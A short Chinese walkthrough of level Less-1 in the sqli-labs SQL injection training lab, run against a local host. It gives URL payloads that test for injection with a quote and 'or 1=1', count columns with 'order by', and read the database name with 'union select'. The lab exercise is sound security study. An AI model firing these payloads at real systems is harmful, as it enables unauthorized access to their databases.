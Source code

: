 

​	

# 闯关过程

## Less-1 

less1的参数类型为字符串

**判断是否存在注入**：`http://127.0.0.1/sqli-labs-master/Less-1/?id=' or 1=1 --+`
![](sqli-labs/1779065-20210207210117101-1929074634.png) 



**判断字段数**：`http://127.0.0.1/sqli-labs-master/Less-1/?id=1 order by 3 --+`  
![](sqli-labs/1779065-20210207214216942-1338697520.png)



**获取当前数据库**：`http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,database(),3  --+`
![](sqli-labs/1779065-20210207214511527-888734407.png)

